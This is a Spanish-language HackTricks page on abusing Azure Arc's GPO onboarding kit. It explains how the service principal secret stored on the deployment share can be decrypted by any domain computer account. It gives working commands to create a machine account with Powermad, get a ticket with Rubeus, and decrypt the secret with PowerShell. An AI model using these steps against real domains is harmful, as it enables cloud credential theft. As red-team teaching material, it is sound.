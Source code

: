 # Az - Script de Implementación de GPO Vulnerable de Azure Arc

{% hint style="success" %}
Aprende y practica Hacking en AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* ¡Consulta los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

### Identificación de los Problemas

Azure Arc permite la integración de nuevos servidores internos (servidores unidos al dominio) en Azure Arc utilizando el método de Objeto de Directiva de Grupo (GPO). Para facilitar esto, Microsoft proporciona un kit de implementación necesario para iniciar el procedimiento de incorporación. Dentro del archivo ArcEnableServerGroupPolicy.zip, se pueden encontrar los siguientes scripts: DeployGPO.ps1, EnableAzureArc.ps1 y AzureArcDeployment.psm1.

Cuando se ejecuta, el script DeployGPO.ps1 realiza las siguientes acciones:

1. Crea la GPO de Incorporación de Servidores de Azure Arc dentro del dominio local.
2. Copia el script de incorporación EnableAzureArc.ps1 al recurso compartido de red designado creado para el proceso de incorporación, que también contiene el paquete de instalación de Windows.

Al ejecutar este script, los administradores de sistemas deben proporcionar dos parámetros principales: **ServicePrincipalId** y **ServicePrincipalClientSecret**. Además, requiere otros parámetros como el dominio, el FQDN del servidor que aloja el recurso compartido y el nombre del recurso compartido. También se deben proporcionar detalles adicionales como el ID de inquilino, el grupo de recursos y otra información necesaria al script.

Se genera un secreto cifrado en el directorio AzureArcDeploy en el recurso compartido especificado utilizando el cifrado DPAPI-NG. El secreto cifrado se almacena en un archivo llamado encryptedServicePrincipalSecret. Se puede encontrar evidencia de esto en el script DeployGPO.ps1, donde el cifrado se realiza llamando a ProtectBase64 con $descriptor y $ServicePrincipalSecret como entradas. El descriptor consiste en los SID de los grupos Domain Computer y Domain Controller, asegurando que el ServicePrincipalSecret solo pueda ser descifrado por los grupos de seguridad Domain Controllers y Domain Computers, como se indica en los comentarios del script.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Explotar

Tenemos las siguientes condiciones:

1. Hemos penetrado con éxito en la red interna.
2. Tenemos la capacidad de crear o asumir el control de una cuenta de computadora dentro de Active Directory.
3. Hemos descubierto una carpeta compartida que contiene el directorio AzureArcDeploy.

Existen varios métodos para obtener una cuenta de máquina dentro de un entorno de AD. Uno de los más comunes es explotar la cuota de cuentas de máquina. Otro método implica comprometer una cuenta de máquina a través de ACL vulnerables u otras configuraciones incorrectas.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Una vez que se obtiene una cuenta de máquina, es posible autenticarse utilizando esta cuenta. Podemos usar el comando runas.exe con la bandera netonly o usar pass-the-ticket con Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Al tener el TGT de nuestra cuenta de equipo almacenado en la memoria, podemos usar el siguiente script para descifrar el secreto principal del servicio.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternativamente, podemos usar [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

En este punto, podemos recopilar la información restante necesaria para conectarnos a Azure desde el archivo ArcInfo.json, que se encuentra almacenado en el mismo recurso compartido de red que el archivo encryptedServicePrincipalSecret. Este archivo contiene detalles como: TenantId, servicePrincipalClientId, ResourceGroup, y más. Con esta información, podemos utilizar Azure CLI para autenticarnos como el principal de servicio comprometido.

## Referencias

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)
